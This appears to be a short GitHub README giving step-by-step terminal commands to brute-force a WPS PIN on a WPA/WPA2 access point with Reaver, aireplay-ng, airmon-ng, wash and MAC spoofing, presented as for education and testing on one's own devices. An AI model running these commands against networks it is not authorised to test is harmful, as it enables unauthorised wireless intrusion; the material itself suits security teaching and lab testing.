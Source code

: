 # WPS WPA/WPA2 Brute Force Attack with Reaver

Simulation demonstrates step-by-step method for attempting to brute force WPA/WPA2- protected access point
exploiting WPS vulnerabilities and retrieving 8 digit key

# Project is for education and ethical testing within your own devices.

## Tools Used
  -  *airmon-ng*  -enables monitor mode
  -  *aireplay-ng* - used for fake authentication
  -  *wash* -scans for WPS-enabled access points
  -  *reaver* - brute-force tools for WPS PIN

## Setup & Attack

1. Confirm and Enable Wireless Adapter
   -sudo iwconfig

2. Prepare Monitor mode
   - sudo ifconfig wlan0 down
   - sudo macchanger -r wlan0
   - sudo airmon-ng check kill
   - sudo airmon-ng start wlan0

3. Search for WPS access points
   - sudo wash --interface wlan0

4. Locate WPS access point (Locked:NO) and enter information for Fake Authentication
   - sudo aireplay-ng --fakeauth 30 -a <Target_BSSID> -h <Your_MAC> wlan0

5. DO NOT RUN COMMAND YET until following command (horizontal) entered below
   - sudo reaver --bssid <Target_BSSDI> --channel <Target_Channel> --interface <your_network_wlan0> -vvv --no-associate

